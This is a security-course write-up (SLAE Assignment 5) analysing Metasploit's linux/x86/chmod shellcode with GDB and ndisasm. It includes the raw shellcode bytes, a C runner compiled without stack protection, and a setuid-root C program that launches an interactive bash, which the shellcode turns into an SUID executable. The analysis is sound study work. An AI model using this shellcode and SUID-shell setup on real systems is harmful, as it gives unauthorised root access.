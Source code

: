 # Assignment #5: Metasploit chmod

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

## Solution

In this assignment we will take up the `linux/x86/chmod` shellcode from Metasploit, as generated by msfpayload. 

For this shellcode to work, we must provide it an input file to perform the operation on. The following C program was used:

#### a5-bash.c
```c
#include <stdlib.h>
void main() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

The program was then compiled, chown'ed to root, and chmod'ed to readonly for everybody:

```bash
gcc a5-bash.c -o a5-bash
chown root:root a5-bash
chmod 444 a5-bash
ls -la a5-bash
	-r--r--r-- 1 root root 5188 Jun 20 19:41 a5-bash
```

For the purposes of this assignment, the mode we will be chmod'ing to will be 4755, also known as the SUID executable. 

With both, the file and the mode parameters set, everything is ready to begin the analysis.


## Analysis

Let us begin by generating and running the shellcode.

```bash
msfpayload linux/x86/chmod FILE=a5-bash MODE=4755 C > a5-msf_chmod.c
```

Msfpayload will only generate the opcodes. We must append the execution skeleton manually.

#### a5-msf_chmod.c

```c
#include<stdio.h>
#include<string.h>
/*
 * linux/x86/chmod - 32 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, FILE=a5-bash, MODE=4755
 */
unsigned char code[] = \
"\x99\x6a\x0f\x58\x52\xe8\x08\x00\x00\x00\x61\x35\x2d\x62\x61"
"\x73\x68\x00\x5b\x68\xed\x09\x00\x00\x59\xcd\x80\x6a\x01\x58"
"\xcd\x80";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

Now we are ready to compile and execute the shellcode.

```bash
gcc a5-msf_chmod.c -o a5-msf_chmod -fno-stack-protector -z execstack
ls -la a5-bash
	-r--r--r-- 1 root root 5188 Jun 20 19:41 a5-bash
./a5-msf_chmod
ls -la a5-bash
	-rwsr-xr-x 1 root root 5188 May 22 17:57 a5-bash
```

Ok, looks like everything works as expected. Executing the shellcode effectively makes `a5-bash` an SUID executable.

Let us know attempt to emulate the shellcode with Libemu, hopefully getting a nice outline of the shellcode execution flow.

```
msfpayload linux/x86/chmod FILE=a5-bash MODE=4755 R | sctest -Svvvs 100000000000
```

Unfourtunately, Libemu fails to produce any useful output, so we proceed to disassembling raw shellcode with Ndisasm 

```
msfpayload linux/x86/chmod FILE=a5-bash MODE=4755 R | ndisasm -u -
```

The analysis was done with the use of GDB,

```bash
gdb a5-msf_chmod
```
```gdb
gdb$ b *&code
Breakpoint 1 at 0x8049760

gdb$ run

gdb$ pdisass 
Dump of assembler code for function code:
=> 0x08049760 <+0>:	cdq    
   0x08049761 <+1>:	push   0xf
   0x08049763 <+3>:	pop    eax
   0x08049764 <+4>:	push   edx
   0x08049765 <+5>:	call   0x8049772 <code+18>				; shifted code, disassemble this function
   0x0804976a <+10>:	popa   
   0x0804976b <+11>:	xor    eax,0x7361622d
   0x08049770 <+16>:	push   0xed685b00
   0x08049775 <+21>:	or     DWORD PTR [eax],eax
   0x08049777 <+23>:	add    BYTE PTR [ecx-0x33],bl
   0x0804977a <+26>:	sub    BYTE PTR [edx+0x1],0x58
   0x0804977e <+30>:	int    0x80
   0x08049780 <+32>:	add    BYTE PTR [eax],al
End of assembler dump.


gdb$ pdisass 0x8049772 <code+18>
Dump of assembler code from 0x8049772 to 0x8049792:
   0x08049772 <code+18>:	pop    ebx
   0x08049773 <code+19>:	push   0x9ed
   0x08049778 <code+24>:	pop    ecx
   0x08049779 <code+25>:	int    0x80
   0x0804977b <code+27>:	push   0x1
   0x0804977d <code+29>:	pop    eax
   0x0804977e <code+30>:	int    0x80
   0x08049780 <code+32>:	add    BYTE PTR [eax],al
```

the following C libraries

- `/usr/include/i386-linux-gnu/asm/unistd_32.h`
- `/usr/include/asm-generic/fcntl.h`

as well as the Intel Assembly Instruction Set manual

- `64-ia-32-architectures-software-developer-vol-2a-2b-instruction-set-a-z-manual.pdf`

The following is the Ndisasm output commented to analyze and clarify each instruction:

```nasm
00000000  99                cdq							; edx = 0
00000001  6A0F              push byte +0xf				; #define __NR_chmod 15
00000003  58                pop eax 					; eax = int chmod(const char *path, mode_t mode);
00000004  52                push edx 					; put NULL dword on the stack

														; from here on, GDB was used to understand the code

00000005  E808000000        call dword 0x12 			; put PAYLOAD address on the stack
 |
 +->00000012	0x08049772 <code+18>:	pop    ebx 					; ebx = EIP return address [PAYLOAD @ 0000000A] (path)
	00000013	0x08049773 <code+19>:	push   0x9ed 				; put 4755 (octal) on the stack
	00000018	0x08049778 <code+24>:	pop    ecx 					; ecx = 4755 (mode)
	00000019	0x08049779 <code+25>:	int    0x80 				; chmod 4755 a5-bash
	0000001B	0x0804977b <code+27>:	push   0x1 					; #define __NR_exit 1
	0000001D	0x0804977d <code+29>:	pop    eax 					; eax = void exit(int status);
	0000001E	0x0804977e <code+30>:	int    0x80 				; exit
				0x08049780 <code+32>:	add    BYTE PTR [eax],al 	; this does not get executed

   														; PAYLOAD = a5-bash
0000000A  61                popad
0000000B  352D626173        xor eax,0x7361622d
00000010  68005B68ED        push dword 0xed685b00
														; chmod 4755 a5-bash
00000015  0900              or [eax],eax
00000017  0059CD            add [ecx-0x33],bl
0000001A  806A0158          sub byte [edx+0x1],0x58
0000001E  CD80              int 0x80
```


## Discussion and Conclusions

Undestanding this shellcode had several seemingly tricky parts, but with the use of GDB it was possible to trace the execution flow and relate it back to Ndisasm output in a way that would allow for easy instruction interpretation.

The shellcode basically works by using the `chmod()` system call, passing to it the path of the file and the permissions mode to be used. The shellcode uses the `CALL` instruction to put the payload address on the stack (the filename `a5-bash`). Finally, it executes the `chmod()` call on `a5-bash` with `4755` as the permissions mode, thereby making the file an SUID executable.


## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-5/chmod/example.png "Example")

Note: while executing `a5-msf_chmod`, the reported shellcode length is 7. This is of course due to the presence of NULL bytes in the shellcode.
